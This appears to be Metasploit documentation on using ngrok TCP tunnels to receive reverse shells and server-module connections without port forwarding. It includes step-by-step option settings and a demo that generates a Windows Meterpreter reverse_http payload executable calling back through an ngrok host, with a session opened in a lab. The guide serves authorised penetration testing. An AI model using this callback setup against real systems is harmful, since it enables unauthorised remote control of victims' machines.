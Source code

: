 # Overview
[ngrok][1] is a popular service that offers free port-forwarding that is easy to setup without needing to run a
dedicated server on a public IP address (as is the case with SSH, socat and other more traditional options. This means
that users behind a SNATing device such as a SOHO router can accept reverse shells and other connections without needing
to configure port forwarding.

**WARNING:** The nature of using ngrok is to send traffic through a third party. ngrok and the server which it utilizes
are not affiliated with the Metasploit project. Use of ngrok effectively sends traffic through an untrusted third party
and should be done with extreme caution. While Meterpreter has offered end-to-end encryption since Metasploit 6.0, other
payloads and connections do not.

ngrok can start multiple types of tunnels. The `tcp` tunnel is compatible with Metasploit's payloads and most closely
resembles a traditional port-forwarding configuration. The `http` tunnel type is not compatible with payloads, and
should not be used. The `tls` tunnel type may be compatible, but access to it is restricted to the Enterprise and 
Pay-as-you-go paid plans. This document will focus on the use cases for the `tcp` tunnel type. Note that one limitation
is that the public port can not be configured, it is randomly selected by ngrok meaning that the target will need to be
able to connect to this high, obscure port which may be prevented by egress filtering.

## Usage with payloads
Use with payloads can be achieved with any of the reverse-connection stagers that accept `LHOST` and `LPORT` options,
e.g. reverse_tcp, reverse_http, reverse_https, etc. but not reverse_named_pipe. In the following scenario, ngrok will be
used to forward a random public port to the Metasploit listener on port 4444. This scenario assumes that Metasploit and
ngrok are running on the same host.

**NOTE:** At this time, payloads handle DNS hostnames inconsistently. Some are compatible with hostnames while others
require IP addresses to be specified as the target to connect to (the `LHOST` option). To ensure the specified payload
will work, the hostname provided by ngrok should be resolved to an IP address and the IP address should be used as the
value for `LHOST`.

1. Start a TCP tunnel using ngrok: `ngrok tcp localhost:4444`.
1. ngrok should start running and display a few settings, including a line that says "Forwarding". Note the host and
   port number from this line, e.g. `4.tcp.ngrok.io:13779`
1. Resolve the hostname from the previous step to an IP address.
1. Start msfconsole and use the desired payload or exploit module.
  * Using `msfconsole` for both generating the payload and handling the connection is recommended over using `msfvenom`
    for two reasons.
    1. Using `msfvenom` starts up an instance of the framework to generate the payload, making it a slower process.
    2. Using `msfconsole` to configure both the payload and handler simultaneously ensures that the options are set for
       both, eliminating the possibility that they are out of sync.
1. Set the `LHOST` option to the IP address noted in step 3. This is where the payload is expecting to connect to.
1. Set the `LPORT` option to the port noted in step 2, `13779` in the example.
1. Set the `ReverseListenerBindAddress` option to `127.0.0.1`. This is where the connection will actually be accepted
   from ngrok.
1. Set the `ReverseListenerBindPort` option to `4444`.
1. Either run the exploit, or generate the payload with the `generate` command and start the handler with `to_handler`

Once the payload has been executed, either through the exploit or manual means, there should be a open connection seen
through the ngrok terminal.

### Payload Demo

ngrok side:
```
$ ngrok tcp localhost:4444
ngrok                                                           (Ctrl+C to quit)

Take our ngrok in production survey! https://forms.gle/aXiBFWzEA36DudFn6

Session Status                online
Account                       ????? (Plan: Personal)
Version                       3.16.0
Region                        United States (us)
Latency                       33ms
Web Interface                 http://127.0.0.1:4040
Forwarding                    tcp://4.tcp.ngrok.io:17511 -> localhost:4444

Connections                   ttl     opn     rt1     rt5     p50     p90
                              0       0       0.00    0.00    0.00    0.00
```

resolve the hostname `4.tcp.ngrok.io` to an IP address
```
$ dig +short 4.tcp.ngrok.io
192.0.2.1
```

metasploit side:
```msf
msf6 > use payload/windows/x64/meterpreter/reverse_http
msf6 payload(windows/x64/meterpreter/reverse_http) > set LHOST 192.0.2.1
LHOST => 192.0.2.1
msf6 payload(windows/x64/meterpreter/reverse_http) > set LPORT 17511
LPORT => 17511
msf6 payload(windows/x64/meterpreter/reverse_http) > set ReverseListenerBindAddress 127.0.0.1
ReverseListenerBindAddress => 127.0.0.1
msf6 payload(windows/x64/meterpreter/reverse_http) > set ReverseListenerBindPort 4444
ReverseListenerBindPort => 4444
msf6 payload(windows/x64/meterpreter/reverse_http) > to_handler 
[*] Payload Handler Started as Job 2
msf6 payload(windows/x64/meterpreter/reverse_http) > 
[*] Started HTTP reverse handler on http://127.0.0.1:4444

msf6 payload(windows/x64/meterpreter/reverse_http) > generate -f exe -o ngrok_payload.exe
[*] Writing 7168 bytes to ngrok_payload.exe...
msf6 payload(windows/x64/meterpreter/reverse_http) > 
[*] http://127.0.0.1:4444 handling request from 127.0.0.1; (UUID: ghzekibo) Staging x64 payload (202844 bytes) ...
[*] Meterpreter session 1 opened (127.0.0.1:4444 -> 127.0.0.1:55468) at 2024-09-10 16:43:58 -0400

msf6 payload(windows/x64/meterpreter/reverse_http) > sessions -i -1
[*] Starting interaction with 1...

meterpreter > getuid
Server username: MSFLAB\smcintyre
meterpreter >
```

## Usage with server modules
Some modules expect connections to be made to them by the target. These modules can also be used with ngrok, with some
slight variations to the payload workflow in regards to their datastore options. Modules that start servers can be
identified by using the `SRVHOST` and `SRVPORT` datastore options.

**NOTE:** Free ngrok plans can only open one tcp tunnel at a time. This means that if the module is an exploit that a
tcp tunnel for a reverse-connection payload will not be able to be opened at the same time. Use a second ngrok account
to open a second tcp tunnel and follow the steps above for the payload configuration.

1. Start a TCP tunnel using ngrok: `ngrok tcp localhost:4444`.
1. ngrok should start running and display a few settings, including a line that says "Forwarding". Note the host and
   port number from this line, e.g. `4.tcp.ngrok.io:13779`
1. Resolve the hostname from the previous step to an IP address.
1. Start msfconsole and use the desired module.
1. Set the `LHOST` option to the IP address noted in step 3. This is where the payload is expecting to connect to.
1. Set the `SRVPORT` option to the port noted in step 2, `13779` in the example.
1. Set the `ListenerBindAddress` option to `127.0.0.1`. This is where the connection will actually be accepted
   from ngrok.
1. Set the `ListenerBindPort` option to `4444`.
1. Run the module

[1]: https://ngrok.com/
